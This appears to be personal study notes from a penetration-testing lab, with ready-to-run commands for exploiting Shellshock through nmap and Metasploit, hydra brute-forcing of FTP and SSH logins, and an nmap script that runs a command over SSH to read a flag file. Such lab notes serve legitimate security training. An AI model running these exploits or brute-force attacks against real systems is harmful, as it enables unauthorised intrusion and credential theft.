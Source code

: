 #### Bash Exploit: Shellshock
![](https://miro.medium.com/v2/resize:fit:720/format:webp/0*RaGT5xB77Sf_lZLs.jpg)
* [Shellshock Code & the Bash Bug - Computerphile (youtube.com)](https://www.youtube.com/watch?v=MyldPMn95kk&ab_channel=Computerphile)
* Scan for the target:  Nmap Scan
```bash
nmap -sV <ip> --script=http-shellshock --script-args "https-shellshock.uri=/gettime.cgi"
```
* Exploit the vulnerability through Burp Suite payloads
![[Screenshot 2024-07-15 at 12.39.30 PM.png]]
* Msfconsole
```bash
 msfconsole -q
 search shellshock
 use exploit/multi/http/apache_mod_cgi_bash_env_exec
 set RHOSTS <ip>
 set TARGET <uri path contain cgi filename>
 exploit
 
```
* Source Code find the /gettime.cgi
	* ![[Screenshot 2024-07-15 at 12.59.51 PM.png]]
#### FTP Exploit: 
* Brute Force
```bash
hydra -L <username list> -P <password list> <ip> -t <number of parrallel> ftp
```
#### SSH Exploit

hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P  /usr/share/metasploit-framework/data/wordlists/common_passwords.txt  192.42.85.2 t 5 ssh

#### SSH algo
```bash
example
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=student" <ip>
```
#### SSH run command
```bash
nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student,ssh-run.password=" 192.201.39.3
```
![[Screenshot 2024-07-22 at 6.51.14 PM.png]]